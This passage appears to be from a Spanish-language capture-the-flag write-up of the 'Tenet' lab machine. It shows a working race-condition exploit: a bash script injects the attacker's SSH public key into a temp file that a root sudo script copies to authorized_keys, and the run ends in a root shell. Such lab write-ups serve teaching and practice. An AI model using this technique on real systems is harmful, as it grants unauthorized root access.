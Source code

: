 ```bash
#!/bin/bash

if ls /tmp/ssh-* 2>/dev/null;then
	echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIUhYBjzvDmO/e8IRzDVe6ojCFE8JzONwO6eEP0MYQva root@pyuser" > /tmp/ssh-*
	rm ssh-\* 2>/dev/null
fi
```

> Nos creamos un script que detecta cuando se crea el archivo temporal y mete el contenido de nuestra clave pública en el archivo.

```bash
neil@tenet:/tmp$ while true;do ./exploit.sh;done
```

```ruby
/tmp/ssh-Git0x5BF
```

```bash
neil@tenet:/tmp$ while true; do sudo /usr/local/bin/enableSSH.sh; done
```

```ruby
Successfully added root@ubuntu to authorized_keys file!
```

> Ejecutamos los dos script en bucle a la misma vez.

```bash
❯ ssh root@10.10.10.223
```

```ruby
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-129-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jun 28 20:46:03 UTC 2025

  System load:  0.9                Processes:             190
  Usage of /:   15.6% of 22.51GB   Users logged in:       1
  Memory usage: 20%                IP address for ens160: 10.10.10.223
  Swap usage:   0%


53 packages can be updated.
31 of these updates are security updates.
To see these additional updates run: apt list --upgradable

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat Jun 28 20:32:01 2025 from 10.10.14.5
root@tenet:~# 
```
